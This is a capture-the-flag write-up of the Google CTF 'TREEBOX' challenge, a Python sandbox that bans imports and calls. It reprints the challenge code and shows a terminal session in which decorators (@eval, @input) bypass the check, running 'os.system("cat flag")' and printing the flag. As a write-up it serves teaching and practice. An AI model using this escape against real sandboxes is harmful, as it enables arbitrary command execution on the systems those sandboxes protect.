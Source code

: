# Google CTF - TREEBOX (50 pts)
##### type: sandbox
##### by [IsaacMak](https://github.com/IsaacMak2009)  
##
first for all, let look at the `treebox.py`:
```py
#!/usr/bin/python3 -u
#
# Flag is in a file called "flag" in cwd.
#
# Quote from Dockerfile:
#   FROM ubuntu:22.04
#   RUN apt-get update && apt-get install -y python3
#
import ast
import sys
import os

def verify_secure(m):
  for x in ast.walk(m):
    match type(x):
      case (ast.Import|ast.ImportFrom|ast.Call):
        print(f"ERROR: Banned statement {x}")
        return False
  return True

abspath = os.path.abspath(__file__)
dname = os.path.dirname(abspath)
os.chdir(dname)

print("-- Please enter code (last line must contain only --END)")
source_code = ""
while True:
  line = sys.stdin.readline()
  if line.startswith("--END"):
    break
  source_code += line

tree = compile(source_code, "input.py", 'exec', flags=ast.PyCF_ONLY_AST)
if verify_secure(tree):  # Safe to execute!
  print("-- Executing safe code:")
  compiled = compile(source_code, "input.py", 'exec')
  exec(compiled)
```
what this file actually do is just compile a python code and check if it have import statement or call statement.
after some testing, i found that i can use [decorators](https://www.geeksforgeeks.org/decorators-in-python/) to call a function
## Show time!
```bash
root@IsaacMak:~/CTF-writeup/google_ctf/treebox# nc treebox.2022.ctfcompetition.com 1337
== proof-of-work: disabled ==
-- Please enter code (last line must contain only --END)
@eval
@input
class A: pass
--END
-- Executing safe code:
<class '__main__.A'>os.system("cat flag")
CTF{CzeresniaTopolaForsycja}
root@IsaacMak:~/CTF-writeup/google_ctf/treebox#
```
flag: `CTF{CzeresniaTopolaForsycja}`
